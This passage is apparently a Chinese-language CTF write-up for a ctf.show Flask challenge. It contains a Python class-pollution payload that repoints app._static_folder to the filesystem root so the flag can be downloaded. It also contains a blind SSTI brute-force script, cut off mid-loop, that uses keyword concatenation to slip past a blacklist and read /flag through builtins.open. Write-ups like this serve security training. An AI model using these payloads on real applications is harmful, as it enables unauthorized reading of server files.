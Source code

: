 ![9](https://the0n3.top/medias/show-DSB/9.png)

出题人认为这题出现了非预期，没有考虑到`_static_folder`的权限利用。可以污染`app._static_folder`，改变static静态目录下的实际目录，定位到根目录，这样可以直接访问flag

```python
import requests
import json

url = "http://f5b184ba-4853-42a4-bf88-8c65497fc62a.challenge.ctf.show/register"

payload={
    "username": "4",
    "password": "4",
    "__init__": {
        "__globals__":{
            "app":{
                "_static_folder":"/"
            }
        }
    }
}
r = requests.post(url=url, json=payload)
print(r.text)
```

污染后访问`url/static/flag`就可以实现直接访问根目录下的flag

现在讲讲在ssti注入这里，出题人的预期思路(猜测)：

- 禁用ssti常见关键词，利用拼接或编码绕过
- 禁用shell常见查看命令，不能直接看flag
- 如果ssti成功注入且存在比较，会返回true或false。仅仅是`1-1`,`7*7`这种似乎不会解析？

![11](https://the0n3.top/medias/show-DSB/11.png)

这里预期希望达到一个像sql盲注的效果，通过提示判断flag每一位的值

![12](https://the0n3.top/medias/show-DSB/12.png)

带上session，在echo路由下盲注

```python
# Author: baozongwi
import requests

url = "http://f5b184ba-4853-42a4-bf88-8c65497fc62a.challenge.ctf.show/echo"
strings = "1234567890abcdef-tfshow{}"
target = ""

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "cookie": "user=eyJpc19hZG1pbiI6MSwidXNlcm5hbWUiOiIzIn0.ZzQrsw.wocMaLqlVcQkr6-mms3BVOIrGD4"
}

for i in range(50):
    for j in range(50):
        for string in strings:
            payload = '''
            cycler["__in"+"it__"]["__glo"+"bals__"]["__bui"+"ltins__"].open('/flag').read({})[{}]=='{}'
            '''.format(j + 1, j, string)
            data={
                "message":payload
            }
            r = requests.post(url=url, data=data, headers=headers)
            if r.status_code == 200 and "your answer is True" in r.text:
```